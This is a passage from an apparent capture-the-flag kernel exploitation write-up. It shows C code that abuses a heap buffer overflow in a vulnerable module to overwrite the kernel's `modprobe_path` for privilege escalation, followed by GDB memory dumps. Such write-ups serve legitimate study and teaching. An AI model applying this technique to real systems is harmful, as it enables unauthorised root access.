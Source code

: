 ```c
```

Now that we have the kernel base address, I have choosen to overwrite
`modprobe_path` as it is a fast and easy way to privesc. We could also make
the kernel executes `commit_creds(prepare_creds())` by overwritting
`pipe_buffer.ops` with a userland pointer to execute our own functions as there
is no SMAP or SMEP, but by overwritting `modprobe_path`, our exploit will work
even with these protections enabled.

We will use the first buffer overflow to overwrite the `next` pointer with
`modprobe_path`. We have to create a new item before overwritting the `next`
field in order to have 2 elements in the linked list :

```c
memset(buf, 'A', BUF_SIZE);
new_item(buf, 0x100); // B -> A


// B.next = modprobe_path
memset(buf, 0, BUF_SIZE);
*(unsigned long long *)(buf + 0x108) = modprobe_path;
edit_item(0, buf, 0x110);

// overwrite modprobe_path
strncpy(buf, "/home/user/pld", BUF_SIZE);
edit_item(1, buf, strlen(buf) + 1);
```

Unfortunately for us, there are two pointers at `modprobe_path+0x100` and we
just overwrote them, making the kernel panics when executing the file starting
with an unknown magic number.

```
gef➤  tel 0xffffffff92a51a00 -l 40
0xffffffff92a51a00│+0x0000: "/sbin/modprobe"
0xffffffff92a51a08│+0x0008: 0x000065626f727064 ("dprobe"?)
0xffffffff92a51a10│+0x0010: 0x0000000000000000
0xffffffff92a51a18│+0x0018: 0x0000000000000000
0xffffffff92a51a20│+0x0020: 0x0000000000000000
0xffffffff92a51a28│+0x0028: 0x0000000000000000
0xffffffff92a51a30│+0x0030: 0x0000000000000000
0xffffffff92a51a38│+0x0038: 0x0000000000000000
0xffffffff92a51a40│+0x0040: 0x0000000000000000
0xffffffff92a51a48│+0x0048: 0x0000000000000000
0xffffffff92a51a50│+0x0050: 0x0000000000000000
0xffffffff92a51a58│+0x0058: 0x0000000000000000
0xffffffff92a51a60│+0x0060: 0x0000000000000000
0xffffffff92a51a68│+0x0068: 0x0000000000000000
0xffffffff92a51a70│+0x0070: 0x0000000000000000
0xffffffff92a51a78│+0x0078: 0x0000000000000000
0xffffffff92a51a80│+0x0080: 0x0000000000000000
0xffffffff92a51a88│+0x0088: 0x0000000000000000
0xffffffff92a51a90│+0x0090: 0x0000000000000000
0xffffffff92a51a98│+0x0098: 0x0000000000000000
0xffffffff92a51aa0│+0x00a0: 0x0000000000000000
0xffffffff92a51aa8│+0x00a8: 0x0000000000000000
0xffffffff92a51ab0│+0x00b0: 0x0000000000000000
0xffffffff92a51ab8│+0x00b8: 0x0000000000000000
0xffffffff92a51ac0│+0x00c0: 0x0000000000000000
0xffffffff92a51ac8│+0x00c8: 0x0000000000000000
0xffffffff92a51ad0│+0x00d0: 0x0000000000000000
0xffffffff92a51ad8│+0x00d8: 0x0000000000000000
0xffffffff92a51ae0│+0x00e0: 0x0000000000000000
0xffffffff92a51ae8│+0x00e8: 0x0000000000000000
0xffffffff92a51af0│+0x00f0: 0x0000000000000000
0xffffffff92a51af8│+0x00f8: 0x0000000000000000
```